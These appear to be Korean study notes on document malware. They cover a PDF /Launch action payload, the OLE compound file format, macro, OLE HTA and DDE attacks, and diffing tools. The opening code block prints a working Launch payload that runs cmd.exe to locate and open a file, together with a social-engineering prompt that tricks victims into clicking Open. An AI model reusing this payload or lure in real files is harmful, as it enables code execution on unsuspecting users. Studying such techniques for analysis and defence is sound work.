```
<</S/Launch/Type/Action/Win<</F(cmd.exe)/D(c:\\windows\\system32)/P(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\template.pdf" (cd "Desktop"))&(if exist "My Documents\\template.pdf" (cd "My Documents"))&(if exist "Documents\\template.pdf" (cd "Documents"))&(if exist "Escritorio\\template.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\template.pdf" (cd "Mis Documentos"))&(start template.pdf)

To view the encrypted content please tick the "Do not show this message again" box and press Open.)>>>>
```

## OLE 파일 포맷
* 폴더 역할의 스토리지(Storage)와 파일 역할의 스트림(Stream)으로 구성
	- 참고 : https://bonggang.tistory.com/136

* OLE 파일(CFB, Compound File Binary) 포맷은 일반적으로 복합 문서를 지칭하며 MS의 문서 포맷으로 사용된다.
* 폴더 역할의 스토리지(Storage)와 파일 역할의 스트림(Stream)으로 구성되어 있으며 512byte의 섹터 단위로 저장되어있다.

###  1. MACRO를 이용한 공격
참조 : AI_security\11 악성코드 분석\01-DOCS\문서 악성코드\WORD 문서 악성 코드.txt

#### 디핑 툴
* binary diffing
* DarunGrim

### 숙제
1. MACRO
	- macro 동작 코드가 VBscript로 되어 있어서, 관련 시그니처를 쉽게 스캔할 수 있음
2. OLE HTA 공격
	- Object Linking and Embedding
	- 링크(공격코드는 없고, 공격모드가 있는 곳으로 링크 설정)
3. OLE DDE 공격
	- Dynamic Data Exchange
	- 데이터를 한 응용 프로그램에서 다른 응용 프로그램으로 가져 오지 않지만 서로 참조
	- 윈도우 응용 프로그램 간의 동일한 데이터를 공유하도록 허용하는 방법 중 하나
	- 이 기능은 다른 프로세스를 실행시킬 수 있어 이 기능을 악용하여 악성코드를 다운 받거나 실행시키도록 한다.
* office OLE 포맷에 존재하는 취약점

---
* XSS보다 SQL이 방어가 쉽다.

